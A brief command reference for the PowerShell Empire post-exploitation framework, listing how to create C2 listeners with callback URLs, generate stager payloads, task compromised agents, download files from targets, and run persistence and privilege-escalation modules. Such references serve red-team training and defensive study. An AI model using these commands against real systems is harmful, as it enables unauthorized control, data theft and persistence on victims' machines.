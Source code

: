 # PowerShell Empire: Basic Commands Reference

## Overview

PowerShell Empire is a post-exploitation framework that provides agents for command and control, primarily using PowerShell.

## Listener Management

### View Listeners
- `listeners` - List all active listeners.

### Create Listener
- `uselistener [type]` - Select a listener module.
  - Example: `uselistener http`
- `set Name [name]` - Set listener name.
- `set Host http://[IP]:[PORT]` - Set callback URL.
- `execute` - Start the listener.

### Delete Listener
- `kill [name]` - Stop and remove a listener.

## Stagers

### View Stagers
- `usestager [type]` - Use a stager module (e.g., `windows/launcher_bat`).
- `set Listener [name]` - Link to a running listener.
- `execute` - Generate the stager payload.

## Agents

### View Active Agents
- `agents` - List all active agents.

### Interact with an Agent
- `interact [agent_name]` - Enter an agent session.

### Task Agent
Once inside an agent session:
- `shell [command]` - Run a shell command.
- `ps` - List processes.
- `pwd` - Print working directory.
- `ls` - List files.

### Upload / Download
- `upload [local]` - Upload file to the target.
- `download [remote]` - Download file from the target.

### Persistence & Priv Esc
- `usemodule persistence/...` - Use a persistence module.
- `usemodule privesc/...` - Use a privilege escalation module.
- `info` - Show info about the selected module.
- `set [option] [value]` - Set required options.
- `execute` - Run the module.

### Kill Agent
- `kill [agent_name]` - Terminate the agent session.

## Notes
- Use `help` at any prompt to list available commands.
- Modules are organized under categories like `recon`, `privesc`, `lateral_movement`, etc.
- Empire requires Python and PowerShell support on the target system.
